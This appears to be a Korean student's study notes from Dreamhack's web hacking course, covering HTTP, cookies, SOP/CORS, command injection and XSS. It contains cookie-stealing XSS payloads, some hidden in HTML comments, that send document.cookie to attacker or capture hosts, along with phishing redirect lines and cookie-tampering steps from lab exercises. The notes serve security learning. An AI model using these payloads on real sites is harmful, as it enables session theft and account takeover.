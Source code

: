 ```yaml
---
layout: post
title:  "Web Hacking Study - Dreamhack"
toc: true
---
```


## Introduction
그냥 소개하는 곳이구나.
각오: 부지런하자

## Background: Web
World Wide Web, W3, Web, 웹
웹: HTTP를 이용하여 정보를 공유하는 서비스
HTTP: 웹상에서 서로 통신을 하기 위해 정해둔 일종의 규칙
프론트엔드(Front-end): 이용자의 요청을 받는 부분
백엔드(Back-end): 요청을 처리하는 부분

웹 리소스: 웹에 갖춰진 정보 자산 - 고유의 Uniform Resource Identifier(URL)을 가짐
- Hyper Text markup Language (HTML): 태그와 속성을 통한 구조화된 문서 작성 지원
- Cascading Style Sheets (CSS): 웹 리소스들의 시각화 방법을 기재한 스타일 시트
- JavaScript (JS): 웹 문서의 동작 정의. (Client-Side Script)

## Background: HTTP/HTTPS

클라이언트의 행의 요청: Request / 서버의 행위 응답: Response
프로토콜(Protocol): 규격화된 상호작용에 적용되는 약속

HTTP: 서버와 클라이언트의 데이터 교환을 요쳥과 응답 형식으로 정의한 프로토콜
### HTTP 헤더
각 줄은 CRLF로 구분되며 첫 줄은 시작 줄(Start Line), 나머지 줄은 헤더(Header)라고 부름
헤더의 끝은 빈 줄
### HTTP 바디
헤드의 끝을 나타내는 CRLF 뒤 모든 줄

### HTTP 요청
시작 줄: 메소드, 요청 대상, HTTP 버전으로 구성
- 메소드: 요청 대상에 대해 서버가 수행하길 바라는 동작
예) GET(리소스 가져와), POST(요청 대상에게 데이터 보내)
### HTTP 응답
시작줄: HTTP 버전, 상태 코드, 처리 사유로 구성. 띄어쓰기로 구분
- 상태 코드: 요청에 대한 처리 결과를 세 자릿수로 나타냄 (예: 404)

HTTPS(HTTP over Secure socket layer): TLS를 사용하여 HTTP를 보완한 프로토콜

## Background: Web Browser

웹 브라우저: 뛰어난 이용자 경험을 제공하는 소프트웨어 중 하나
URL은 Scheme, Authority (Userinfo, Host, Port), Path, Query, Fragment로 구성
- scheme: 웹 서버와 어떤 프로토콜로 통신할지
- Host: Authority의 일부. 접속할 웹 서버의 주소에 대한 정보
- Port: Authority의 일부. 접속할 웹 서버의 포트에 대한 정보
- Path: 접근할 웹 서버의 결로로 '/'로 구분
- Query: 웹 서버에 전달하는 파라미터. ? 뒤에 위치
- Fragment: 메인 리소스에 존재하는 서브 리소스를 접근할 때 식별하기 위한 정보. # 뒤에 위치

Domain name: 도메인의 특성을 담은 이름을 정의하여 IP 대신 사용 (예: naver.com)

웹 렌더링(Web rendering): 서버로부터 받은 리소스를 이용자에게 시각화하는 행위

## Tools: browser DevTools
개발자 도구: F12 누르면 나오는 창
요소 검사: 웹 페이지의 원하는 요소에 마우스를 올리면 대상의 정보 출력, 클릭하면 관련된 HTML 코드 하이라이팅
디바이스 툴바: 현재 브라우저의 화면 비율 및 User-Agent를 원하는 값으로 변경 가능
Elements: HTML 코드 읽기
- 코드를 선택한 상태로 단축키 F2를 누르거나 더블클릭하면 수정 가능.
Console: 프론트렌드의 자바스크립트 코드에서 발생한 각종 메세지를 출력, 이용자가 입력한 자바스크립트 코드를 실행해주는 도구
- 윈도우즈 단축키 : Ctrl + Shift + J
Sources: 현재 페이지를 구성하는 웹 리소스 확인 가능, 원하는 JS 디버깅 가능
Network: 서버와 오가는 데이터 확인 가능. 로그를 우클릭하고 Copy로 복사 가능
Application: 쿠키, 캐시, 이미지, 폰트, 스타일시트 등 웹 애플리케이션과 관련된 리소스 조회

## ServerSide: Command Injection
인젝션(Injection): 악의적인 데이터를 프로그램에 입력하여 이를 시스템 명령어, 코드, 데이터베이스 쿼리 등으로 실행되게 하는 기법
Command Injection: 이용자의 입력을 시스템 명령어로 실행하게 하는 취약점
-> 이용자의 입력을 제대로 검사하지 않으면 임의 명령어가 실행될 수 있음

'' 명령어 치환 - 중복 사용 불가
$() 명령어 치환 - 중복 사용 가능
&& 명령어 연속 실행 - 앞 명령어 에러 발생 X 시 뒷 명령어 실행
|| 명령어 연속 실행 - 앞 명령어 에러 발생 시 뒷 명령어 실행
; 명령어 구분
| 파이프 - 앞 명령어의 결과가 뒷 명령어의 입력으로 들어감

## Background: Cookie & Session
HTTP 프로토콜 특징
- Connectionless: 하나의 요청에 하나의 응답을 한 후 연결 종료
- Stateless: 통신이 끝난 후 상태 정보를 저장하지 않는 것
이러한 특성을 갖는 HTTP에서 상태를 유지하기 위해 쿠키 탄생

쿠키: Key와 Value로 이뤄진 일종의 단위
개개인에게 맞춤형 서비스를 제공하기 위해 클라이언트를 식별할 수 있는 값을 쿠키에 저장해 사용함
-> 서버가 검증 없이 쿠키를 통해 이용자의 인증 정보를 식별하면 악의적인 클라이언트가 쿠키 정보를 변조한 공격에 당할 수 있음

세션(Session): 인증 정보를 서버에 저장하고 해당 데이터에 접근할 수 있는 키(유추할 수 없는 랜덤한 문자열, Session ID)을 만들어 클라이언트에 전달

## Exercise: Cookie
엔드포인트: /
서버는 별다른 검증 없이 이용자 요청에 포함된 쿠키를 신뢰하고, 이용자 인증 정보를 식별하기 때문에 공격자는 쿠키에 타 계정 정보를 삽입해 계정을 탈취할 수 있습니다.

<!--
C:\Users\skanj>python -c "import flask; print('Flask is installed')"
Flask is installed

C:\Users\skanj>import flask
'import'은(는) 내부 또는 외부 명령, 실행할 수 있는 프로그램, 또는
배치 파일이 아닙니다.

C:\Users\skanj>python -c import flask
  File "<string>", line 1
    import
          ^
SyntaxError: invalid syntax

C:\Users\skanj>python -c "import falsk"
Traceback (most recent call last):
  File "<string>", line 1, in <module>
ModuleNotFoundError: No module named 'falsk'

C:\Users\skanj>python -c "import flask"

C:\Users\skanj>python app.py
python: can't open file 'C:\\Users\\skanj\\app.py': [Errno 2] No such file or directory

C:\Users\skanj>cd /mnt/c/Users/skanj/OneDrive/바탕\ 화면/coding
지정된 경로를 찾을 수 없습니다.

C:\Users\skanj>cd C:\Users\skanj\OneDrive\바탕 화면\coding

C:\Users\skanj\OneDrive\바탕 화면\coding>python -c "import flask"

C:\Users\skanj\OneDrive\바탕 화면\coding>pyton app.py
'pyton'은(는) 내부 또는 외부 명령, 실행할 수 있는 프로그램, 또는
배치 파일이 아닙니다.

C:\Users\skanj\OneDrive\바탕 화면\coding>python app.py
 * Serving Flask app 'app'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:8000
 * Running on http://192.168.0.5:8000
Press CTRL+C to quit
-->

도대체 저 서버에 어떻게 들어가나 싶었는데 문제에 'VM 접속하기'를 누르면 들어갈 수 있는 서버가 떴다. 진짜 충격!!!

개발자 도구 -> 응용 프로그램 -> 쿠키 -> guest를 admin으로 변조

## Background: Cookie & Session
링크/admin 페이지에서 admin용 코드 복사해서 guest의 코드를 admin 코드로 붙여넣기

## mitigation: Same Origin Policy
SOP(Same Origin Policy), 동일 출처 정책: 가져온 데이터를 악의적인 페이지에서 읽을 수 없도록 하는 브라우저의 보안 매커니즘
이미지나 자바스크립트, CSS 등의 리소스는 SOP에 구애 받지 않고 외부 출처에 대해 접근을 허용한다

Origin(오리진): 브라우저가 가져온 정보의 출처
프로토콜(Protocol, Schema), 포트(Port), 호스트(Host)로 구성 -> 구성 요소가 모두 일치해야 동일한 오리진
동일한 오리진(Same Origin)-구성 요소가 모두 일치 / 다른 오리진(Cross Origin)-하나라도 다름

외부 출처에서 불러온 데이터를 읽으려고 할 때는 오류가 발생해 읽지 못함. 하지만 읽는 것 외에 데이터를 쓰는 것은 문제 없이 동작함.

교차 출처 리소스 공유(Cross Origin Resource Sharing, CORS): HTTP 헤더에 기반하여 Cross Origin 간에 리소스를 공유하는 방법
- 발신측에서 CORS 헤더를 설정해 요청하면, 수신측에서 헤더를 구분해 정해진 규칙에 맞게 데이터를 가져갈 수 있도록 설정

JSON with Padding (JSONP)
JSONP 방식은 <script> 태그로 Cross Origin의 데이터를 불러옴. 하지만 <script> 태그 내에서는 데이터를 자바스크립트의 코드로 인식하기 때문에 Callback 함수를 활용
예시: myCallback({'id':'dreamhack'});

## ClientSide: XSS
클라이언트 사이드 취약점: 웹 페이지의 이용자를 대상으로 공격할 수 있는 취약점
대표적인 공격: Cross Site Scripting(XSS) -  공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행할 수 있음
이용자가 삽입한 내용을 출력하는 기능에서 발생

발생 형태에 따른 XSS 종류
- Stored XSS: XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS
- Refleced XSS: XSS에 사용되는 악성 스크립트가 URL에 삽입디고 서버의 응답에 담겨오는 XSS
- DOM-based XSS: XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS
- Universal XSS: 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점. SOP 정책을 우회하는 XSS

### 콘솔에 넣을 수 있는 자바 스크립트 코드들
alert("hello");
alert(document.cookie); // 현재 페이지의 쿠키를 인자로 가진 alert 실행.
document.cookie = "name=test;"; // 쿠키 생성(key: name, value: test)
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie; // new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정
document; // 이용자의 페이지 정보에 접근.
document.write("Hacked By DreamHack !"); // 이용자의 페이지에 데이터를 삽입.
location.href = "http://hacker.dreamhack.io/phishing"; // 이용자의 위치를 변경.
window.open("http://hacker.dreamhack.io/") // 새 창 열기

## Exercise: XSS
취약점: vuln은 이용자가 입력한 값을 페이지에 그대로 출력하기 때문에 XSS가 발생

<!--
flag 엔드포인트에서 다음과 같은 익스플로잇 코드를 입력하면, memo 엔드포인트에서 임의 이용자의 쿠키 정보를 확인할 수 있습니다.
<script>location.href = "/memo?memo=" + document.cookie;</script>
<script>location.href = "https://augpkgf.request.dreamhack.games/?memo=" + document.cookie;</script>
-->

## Exercise: XSS-2
셀레늄(Selenium): 웹 애플리케이션 테스팅에 사용되는 파이썬 패키지로, API를 통해 크롬, 사파리 등의 웹 드라이버를 사용할 수 있습니다
get으로 사용자가 입력한 param을 바로 return 하는 형태가 아니라, render_template 함수를 사용하고 있다 -> 이용자가 입력한 값을 페이지에 그대로 출력하지 않는다
var content = document.getElementById('example').innerHTML; // 읽기: 요소의 내부 HTML을 가져옴
document.getElementById('example').innerHTML = 'New Content'; // 쓰기: 요소의 내부 HTML을 변경
취약점: 이용자 입력을 바탕으로 innerHTML을 설정했을 때 XSS 공격에 취약할 수 있음

<!--
/flag 페이지의 param 부분에 입력하면, memo에서 임의 이용자의 쿠키 정보를 확인할 수 있게 됩니다.
<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">
-->





